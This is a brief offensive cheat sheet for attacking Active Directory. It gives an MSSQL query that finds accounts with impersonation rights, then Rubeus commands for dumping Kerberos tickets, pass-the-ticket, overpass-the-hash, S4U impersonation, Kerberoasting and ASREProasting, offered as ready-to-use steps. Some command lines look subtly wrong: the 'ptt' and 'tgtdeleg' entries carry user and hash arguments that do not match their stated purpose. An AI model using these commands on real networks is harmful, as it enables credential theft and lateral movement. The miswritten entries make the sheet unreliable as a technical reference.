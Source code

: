 ## MSSQL

#### Users who can be impersonated:

```sql
SELECT p.name AS PrincipalName, p.type_desc AS PrincipalType, perm.permission_name AS Permission, r.name AS RoleName FROM sys.server_permissions AS perm JOIN sys.server_principals AS p ON perm.grantee_principal_id = p.principal_id LEFT JOIN sys.server_role_members AS rm ON p.principal_id = rm.member_principal_id LEFT JOIN sys.server_principals AS r ON rm.role_principal_id = r.principal_id WHERE perm.permission_name = 'IMPERSONATE' OR r.name IS NOT NULL;
```


## Rubeus

Here’s a concise cheat sheet for **Rubeus** commands commonly used in Active Directory exploitation:

1. **Harvest Tickets (Kerberos Tickets)**:
   ```
   Rubeus.exe dump /nowrap
   ```

2. **Overpass-the-Hash (Pass-the-Key)**:
   ```
   Rubeus.exe ptt /user:<username> /rc4:<ntlm_hash>
   ```

3. **Request a TGT (Kerberos Ticket Granting Ticket)**:
   ```
   Rubeus.exe tgtdeleg /user:<username> /rc4:<ntlm_hash>
   ```

4. **Pass-the-Ticket (Inject a TGT or TGS)**:
   ```
   Rubeus.exe ptt /ticket:<ticket.kirbi>
   ```

5. **Dump TGT for Current User**:
   ```
   Rubeus.exe tgtdeleg /nowrap
   ```

6. **S4U2Self (Impersonate a user using TGT delegation)**:
   ```
   Rubeus.exe s4u /user:<username> /rc4:<ntlm_hash> /impersonateuser:<target_user>
   ```

7. **Kerberoasting (Request TGS for Service Accounts)**:
   ```
   Rubeus.exe kerberoast
   ```

8. **ASREProasting (Request AS-REP for accounts without pre-auth)**:
   ```
   Rubeus.exe asreproast
   ```
